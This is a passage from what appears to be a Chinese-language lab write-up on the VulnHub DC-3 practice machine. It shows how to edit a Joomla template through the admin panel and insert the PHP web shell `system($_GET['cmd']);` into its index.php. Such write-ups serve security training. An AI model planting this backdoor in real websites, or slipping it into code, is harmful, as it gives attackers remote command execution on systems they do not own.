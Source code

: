 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/8.png)

是时候拿个 shell 玩玩了

我们可以编辑模板来获得一个反向 shell

访问 `http://192.168.141.138/administrator/index.php?option=com_templates&view=templates`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/9.png)

这里随便找一个模板，我就用 Beez3 了，看它不爽

到 index.php 里加点代码
```php
system($_GET['cmd']);
```
